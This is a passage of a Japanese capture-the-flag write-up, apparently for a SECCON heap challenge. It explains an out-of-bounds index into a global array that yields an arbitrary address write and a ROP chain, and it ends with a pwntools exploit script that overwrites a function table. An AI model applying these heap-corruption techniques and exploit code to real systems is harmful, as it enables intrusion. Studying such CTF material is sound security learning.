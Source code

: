 これにて動的配列の`id`を尋ねられた時に不正な値を入力して`halt(1)`が呼ばれても、`get_id := id;`にジャンプして復帰できる。
関数のネストが違うためうまく復帰できないのでは？と思われるかもしれないが、関数呼び出し時に`rbp`を積んでいるか否か、`leave; ret`と`ret`の差異で都合よくいってくれる。

不正な`id`を入力して嬉しいことは、動的配列へのポインタを持っているグローバル変数`g_arr[]`で範囲外参照をすることで、`g_arr[]`周辺に配置されたポインタめがけてAAWができる点である。

関数テーブルを探してwritable領域を眺めていた時に、mainからのリターンアドレスが置かれている周辺のstack上のアドレスを見つけていた。

しかしながらこのままでは整数1つすら書き込むことができない。
stackのアドレスが入っているメモリを参照するための`id`を`st_id`とすると、各配列のサイズを管理してるグローバル変数`g_size[st_id]`にあたるメモリが0を記録している。
そこでまずは`g_size[st_id]`にあたるメモリを`g_arr[g_size_st_id]`で参照して`realloc()`する。何かしらのチャンクのアドレスが`g_size[st_id]`に入ることで当該動的配列の大きさを改ざんすることができる。

### Exploit
`g_size[st_id]`に入る値がランダムで、ROP chainを2 bytesずつ入力した際の長さに満たない場合や負の数が入った場合は失敗する。
体感40 %くらいは成功する。

```py
from pwn import *
import sys

elf = ELF("chall")
# libc = ELF("libc.so.6")

io = process(elf.path)
# io = remote('babyheap-1970.dom.seccon.games', 9999)

context.log_level = 'info'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb.attach(io)

# - define functions - #
def realloc(id: int, sz: int):
	io.sendlineafter(b"> ", b"1")
	io.sendlineafter(b"id: ", str(id).encode())
	io.sendlineafter(b"size: ", str(sz).encode())

def edit(id: int, idx: int, val: int):
	io.sendlineafter(b"> ", b"2")
	io.sendlineafter(b"id: ", str(id).encode())
	io.sendlineafter(b"index: ", str(idx).encode())
	io.sendlineafter(b"value: ", str(val).encode())


# - out of bounds -> heap overflow - #
realloc(0, 36)
realloc(1, 36)
edit(0, 36, 0x80f1)
realloc(1, 99)

# - write 0x40117c @ 0x429b0
edit(1, 43, 0x0)
edit(1, 42, 0x0)
edit(1, 41, 0x42)
edit(1, 40, 0xe998)

realloc(2, 36)
realloc(3, 36) # <- func. table

edit(3, 3, 0x0)
edit(3, 2, 0x0)
edit(3, 1, 0x40)
edit(3, 0, 0x117c)
```